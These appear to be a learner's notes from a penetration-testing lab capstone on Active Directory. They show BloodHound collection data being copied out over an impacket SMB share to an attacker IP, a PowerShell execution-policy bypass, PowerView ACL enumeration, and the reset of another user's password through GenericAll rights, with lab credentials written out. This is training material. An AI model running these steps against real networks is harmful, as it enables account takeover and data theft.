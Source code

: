 data is stored in a zip on the user's desktop
```
ls C:\Users\stephanie\Desktop\
```


analyze the data using bloodhound on kali
- neo4j is a graph db that helps represent the data
```
sudo apt-get install bloodhound
sudo neo4j start # access at http://localhost:7474, default creds: neo4j, neo4j (change pw to kalitest)
```

start bloodhound from terminal
```
bloodhound
```

copy file from windows
```
impacket-smbserver -smb2support -user stephanie -password LegmanTeamBenzoin\!\! smb smb 
```

from windows - cmd
```
net use \\192.168.45.181\smb
copy "corp audit_20231101083532_BloodHound.zip" \\192.168.45.181\smb
```

### capstone
```
xfreerdp /u:stephanie /d:corp.com /v:192.168.214.75 /p:LegmanTeamBenzoin\!\!
cd C:\Tools
powershell -ep bypass
Import-Module .\PowerView.ps1
```

find that stephanie has access over robert
```
Find-InterestingDomainAcl
```

change their password since we have GenericAll
```
$pass = ConvertTo-SecureString 'password123!' -AsPlainText -Force
set-domainuserpassword -identity robert -accountpassword $pass

xfreerdp /u:robert /d:corp.com /v:192.168.214.74 /p:password123!
```